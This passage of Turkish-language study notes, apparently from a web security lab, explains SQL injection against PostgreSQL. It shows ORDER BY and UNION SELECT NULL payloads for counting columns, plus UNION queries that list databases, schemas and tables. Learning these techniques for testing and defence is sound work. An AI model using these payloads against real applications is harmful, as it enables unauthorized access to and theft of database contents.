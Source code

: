 Sorguya artan indekslerle `ORDER BY` eklenir:

```PostgreSQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
Bir hata alınana kadar bu şekilde devam edilir. Hata alındığında, belirtilen sayının bir fazlası sütun sayısını aşmıştır. Böylece, **bir önceki sayı gerçek sütun sayısıdır**.

Sorgu içinde bulunduğu tablonun kolon sayısına göre şekillenir. Kaç adet Kolonu var ise ona göre yazılabilir. Örnek olarak Sorguyu körlemesine denemek yerinenormal çalıştırıp kaç farklı bilgi verdiğine ve gözükmeyen id gibi bilgileri de hesaba katarak kolon sayısını tahmin edebiliriz.

#### 2. `UNION SELECT NULL` Yöntemi

* `UNION` kullanıldığında veritabanı iki SELECT ifadesinin aynı sayıda ve aynı türde sütun döndürmesini ister.
*  `UNION` sorgusunda iki sorguyu birleştirdiğinden hata çıkmaması için ikisininde aynı kolon sayısına sahip olması lazımdır. Çalışma biçimi yüzünden bizi böyle bir zorunluluğa iter. 
* Artan sayıda `NULL` içeren `UNION SELECT` sorguları gönderilir:

```PostgreSQL
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
```

Doğru sütun sayısı yakalandığında, hata alınmaz ve bazı durumlarda yanıtın içeriğinde değişiklik gözlemlenebilir. `NULL` her veri tipine uyum sağladığı için kullanılır.

Her bir NULL değeri Kolon'u temsil eder ve kolon hangi veri tipiyse onunla uyum sağlamak zorundadır. İnteger ise '200' gibi sayı, String ise 'test' gibi yazı girilmesi lazımdır. Sorguya Dahil olup istediğimiz bilgileri yazdırması için string bir alana ihtiyacımız vardır. 

#### 3. SQL injection da Veri çekmek için kullanılan genel SQL Sorguları :
Eğer baştan başlayıp tüm veritabanı isimleri isimlerini öğrenmek istiyor isek.  :

```Postgresql
UNION SELECT 1, datname, 3 FROM pg_database--
```
Örneğin: `template0`, `template1`, `postgres`, `academy_labs`

Veritabanı içerisindeki bölümleri öğrenmek istiyor isek bu sorgu kendi bulunduğu veritabanı içerisindeki tüm şema isimlerini tutar :
```postgresql
UNION SELECT 1, schema_name, 3 FROM information_schema.schemata--
```

Acedemy_labs içindeki şemalar :
Örneğin: `pg_catalog`, `information_schema`, `public`
* Ek bilgi olarak : UNION sorgusu ile kendi bulunduğumuz veritabanı dışından veri getiremeyiz.

Şema isminden Tablolara ulaşmak için :
```Postgresql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';
```
